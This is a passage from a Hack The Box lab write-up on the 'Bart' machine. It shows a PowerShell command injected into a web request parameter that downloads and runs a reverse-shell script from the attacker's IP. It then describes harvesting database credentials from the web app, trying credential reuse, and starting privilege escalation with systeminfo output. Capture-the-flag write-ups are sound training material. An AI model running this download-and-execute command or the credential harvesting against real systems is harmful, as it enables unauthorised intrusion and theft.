 Then going back to the request, add the following to the _cmd_ parameter. Don’t forget to URL encode it \(CTRL + U\).

```text
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.45:5555/shell.ps1')
```

Send the request. We get a shell!

![](https://miro.medium.com/max/902/1*LjLtnpBLCMLx4Q0x2YtKYA.png)

Looking through the files of the web application, we find Harvey’s database credentials.

![](https://miro.medium.com/max/1160/1*6ck7RKgzv37yxg4lyxN-AA.png)

He might of reused them for his system account _h.potter_. We can’t use RunAs in this shell, so we have to first save the password as a secure string and then use the credentials to send a PowerShell reverse shell back to our attack machine. This is explained in detail in the [Chatterbox ](https://medium.com/@ranakhalil101/hack-the-box-chatterbox-writeup-w-o-metasploit-c8421ac09318?source=friends_link&sk=a06e59823adf327c3f29ef739e090810)writeup. Unfortunately, this does not work. So we’ll try to escalate our privileges to Administrator instead.

## Privilege Escalation <a id="c86d"></a>

Run the systeminfo command.

```text
PS C:\Users\Public\Downloads> systeminfoHost Name:                 BART
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00330-80110-20834-AA869
Original Install Date:     24/09/2017, 19:35:51
System Boot Time:          07/03/2020, 01:22:12
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,165 MB
Virtual Memory: Max Size:  3,519 MB
Virtual Memory: Available: 2,320 MB
Virtual Memory: In Use:    1,199 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.81
```
